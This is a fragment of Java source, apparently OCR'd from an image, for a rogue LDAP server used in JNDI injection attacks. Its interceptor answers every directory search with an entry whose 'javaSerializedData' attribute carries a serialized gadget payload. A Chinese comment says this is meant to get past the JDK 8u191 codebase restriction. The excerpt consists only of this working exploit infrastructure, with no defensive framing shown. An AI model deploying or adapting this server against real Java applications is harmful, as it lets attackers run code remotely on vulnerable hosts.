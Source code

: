 ```plain

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {

            //jdk8u191之后
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget

            e.addAttribute("javaSerializedData", serializeObject(getPayload()));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```